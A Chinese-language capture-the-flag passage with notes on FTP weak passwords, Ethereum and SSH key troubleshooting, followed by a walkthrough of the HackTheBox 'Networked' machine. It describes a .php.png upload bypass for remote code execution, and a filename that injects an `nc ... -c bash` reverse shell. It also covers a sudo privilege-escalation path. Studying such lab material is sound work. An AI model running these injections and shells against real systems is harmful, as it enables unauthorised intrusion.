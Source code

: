 - FTP：匿名登陆常见弱口令，`anonymous:空`、`ftp:ftp`、`user:pass`。
- 以太坊：以太坊是一个运行智能合约的分布式平台。以太坊类比操作系统，智能合约类比应用。
- 智能合约：智能合约被编译为以太坊虚拟机字节码存储在以太坊的区块链上，通过网络中的每个以太坊节点运行EVM（Ethereum Virtual Machine，以太坊虚拟机）实现并执行指令。如果说比特币是二维世界的话，那么以太坊就是三维世界，可以实现无数个不同的二维世界。传统Web服务的后端业务作为只能合约在以太坊上运行。
- EML格式：是微软为Outlook和Outlook Express开发的文件格式；是将邮件归档后生成的文件，保留着原来的HTML格式和标题。
- Linux登陆：使用私钥登陆服务端仍然要输密码，网上多是说由于服务端文件权限配置问题，各种600、700权限设置，天花乱坠，其实这里还可能是客户端问题。不管是使用ssh-copy-id，`ssh-copy-id -i id_rsa_mac kali@172.16.58.129`，还是直接创建.ssh目录并写入authorized_keys文件，`mkdir .ssh; vim authorized_keys`，默认服务端的权限配置都是已经配好了的，无需更改，因为这里只要求authorized_keys文件的其他组O没有写权限-w即可。至于客户端问题，需要使用-vvT参数输出debug log来观察，`ssh -vvT kali@172.16.58.129`。e.g 我本地是配合config文件使用SSH的，生成的服务器私钥文件名并不为默认id_rsa，log中提示SSH已遍历了一些默认的私钥地址，但并无此私钥，因此需要-i指定私钥位置，或在config中设置服务器连接配置。
- John：默认自带一些服务秘钥转HASH的脚本，kali的在/usr/share/john目录下。
- SSH代理：也可以利用SSH设置代理，`ssh -D 1080 -fN -i bobby.key.enc bobby@chainsaw.htb`
- 这是一个关于智能合约的漏洞环境，从智能合约的定义、编写、编译、部署到交互，可以拓展学习不少有趣的东西。

### 九、Networked

环境概述：Linux、Easy、20'、24 Aug 2019

渗透流程：Nmap -> Web Enumeration -> RCE –> Shell as apache -> Command Injection in check_attack.php –> Shell as guly –> User Flag -> Command Injection in the Network Script Name –> Root Shell –> Root Flag

知识点：

- 信息泄露：使用gobuster枚举目录，发现备份文件。

- tar：解压缩`tar zxvf backup.tar `，压缩`tar zcvf test.tar file1 file2`。

- GetShell：制作图片马，重命名为test.php.png，上传并触发RCE，获取apache shell。

- GetShell：guly用户家目录存在定时任务，每三分钟执行某PHP文件，内含RCE code，`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`，$value参数可控且为指定目录下的文件名，使用touch可新建名为`'; nc 10.10.xx.xx 1338 -c bash'`文件，将代码注入并执行，触发RCE，获取guly shell。

- Linux提权：使用`sudo -l`查看当前用户可以使用sudo的范围情况，如下显示guly可以以root权限调用changename.sh，`sudo ./usr/local/sbin/changename.sh`；此文件是设置网络配置的脚本，参考[exp](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)从而提权。

  ```
  User guly may run the following commands on networked:
      (root) NOPASSWD: /usr/local/sbin/changename.sh
  ```

思考：

- 代码审计：作者并没有解释为何上传特殊文件导致RCE的。这里是由于lib.php文件的getnameUpload()函数使用了implode()获取文件后缀，导致可以上传`.php.png`后缀的文件，使用`php -a`获得交互来测试，如下；RCE是PHP和Apache配置错误引发的问题，将`.php*`的文件按php执行，参考[paper](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler)。

  ```
  php > $filename="image.php.png";
  php > $pieces = explode('.',$filename); print_r($pieces);
  Array
  (
      [0] => image
      [1] => php
      [2] => png
  )
  php > $name= array_shift($pieces); echo $name;
  image
  php > $name = str_replace('_','.',$name); echo $name;
  image
  php > $ext = implode('.',$pieces); echo $ext;
  php.png
  ```
